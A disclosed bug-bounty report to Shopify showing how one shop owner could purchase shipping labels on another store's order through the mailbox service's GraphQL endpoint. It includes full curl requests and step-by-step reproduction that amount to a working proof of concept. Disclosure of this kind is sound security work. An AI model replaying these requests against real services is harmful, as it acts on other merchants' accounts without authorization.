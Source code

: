 # Ability to generate shipping labels in another store orders

## Report Details
- **Report ID**: 884159
- **URL**: https://hackerone.com/reports/884159
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-05-28T03:49:57.451Z
- **Disclosed**: 2020-08-19T17:58:58.924Z

## Reporter
- **Username**: imgnotfound
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
## Details
A shop owner creating a session on its own store on https://mailbox.shopifycloud.com/ service can craft request to print labels on another store he doesn't have access to.

## Steps to reproduce
1. Go to an unfulfilled order and click on **Create a shipping label**
2. Copy the CURL request that is being made to https://mailbox.shopifycloud.com/graphql/labels?sessionId={{sessionId}}. The payload should look like 
```
 curl 'https://mailbox.shopifycloud.com/graphql/labels?sessionId=4e8da4a36b' \
  -H 'authority: mailbox.shopifycloud.com' \
  -H 'cache-control: max-age=0' \
  -H 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36' \
  -H 'content-type: application/json' \
  -H 'accept: */*' \
  -H 'origin: https://fbeaudoinplus01.myshopify.com' \
  -H 'sec-fetch-site: cross-site' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-dest: empty' \
  -H 'accept-language: en-US,en;q=0.9' \
  --data-binary $'{"query":"mutation PurchaseShippingLabels($shippingLabelPurchaseRequests:[ShippingLabelPurchaseRequestInput\u0021]\u0021){purchaseShippingLabels(shippingLabelPurchaseRequests:$shippingLabelPurchaseRequests){shippingLabelId status notices{code severity message shippingLabelId carrierCode serviceCode serviceName __typename}__typename}}","variables":{"shippingLabelPurchaseRequests":[{"shippingLabelId":"gid://shopify/ShippingLabel/522221879427", "hmac": "5TjRpa34as7d34OPPEhneeu4723=", "shippingRateSelection":{"carrierCode":"canada_post","serviceCode":"DOM.EP","serviceName":"Expedited Parcel","quotedCost":{"amount":7.91,"currencyCode":"CAD"},"shipmentOptions":[]},"destinationAddress":{"name":"Francis Beaudoinn","address1":"25-838 Rue Grandjean","address2":"","city":"Québec","province":"QC","postalCode":"G1X 3W5","country":"CA","phone":"","company":"&gt;"},"weight":0.00001,"weightUnit":"kg","selectedPackage":{"name":"Sample box","key":"gid://shopify/ShippingPackageV2/46497464451","type":"box","length":35,"width":26,"height":5,"dimensionUnit":"cm","weight":0,"weightUnit":"kg"},"lineItems":[{"lineItemId":"gid://shopify/LineItem/4975517728899","quantity":1}],"customsLineItems":[{"description":"test","quantity":1,"value":0,"weight":0,"weightUnit":"kg","countryOfOrigin":"","provinceOfOrigin":null,"hsCode":"","inventoryItemId":null}],"shippingDate":"2020-05-27","customerNotificationDate":"2020-05-27"}]},"operationName":"PurchaseShippingLabels"}' \
  --compressed
```

3. Void the shipping label
4. Re-open the order and click again on **Create a shipping label** and take note of the `shipping_label_ids` from the URL
5. We'll now re-send the request as the attacker, you'll need to use another shop Owner account (different shop). First of, we'll be initiating a session to the service by making the following request. Make sure to update the `{shop}` placeholder in the `Origin` header with your own shop name.
```
curl 'https://mailbox.shopifycloud.com/session/authentication' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36' \
  -H 'Content-Type: application/json' \
  -H 'Accept: */*' \
  -H 'Origin: https://{shop}.myshopify.com' \
  -H 'Sec-Fetch-Site: cross-site' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --compressed
```
From the response payload, copy the `redirectUrl` value and open it up in your browser. Click the install button then you should now be redirected to a page that contains a JSON payload i.e.: `{"id": "abc", "status":"success"}`. Take note of the `id` value.

6. From the CURL request in step 2:
 - Change the `gid://shopify/ShippingLabel/` object id with the one from Step 2
 - Change the `sessionId` query parameter to the previous step `id` value. i.e.: `abc`
 - Change the cookie `session` value to the same `id` value. i.e.: `abc`
 - Remove the `hmac` property from the payload

7. Send the CURL request and go back to the order, a new label has been generated.

## Demo
█████

## Impact

I am not sure of the impact as I didn't make too many tests except the one described here but at least, it demonstrates that an attacker is able to create a session on his own store and make requests to other stores he doesn't have access to.

## Attachments
No attachments
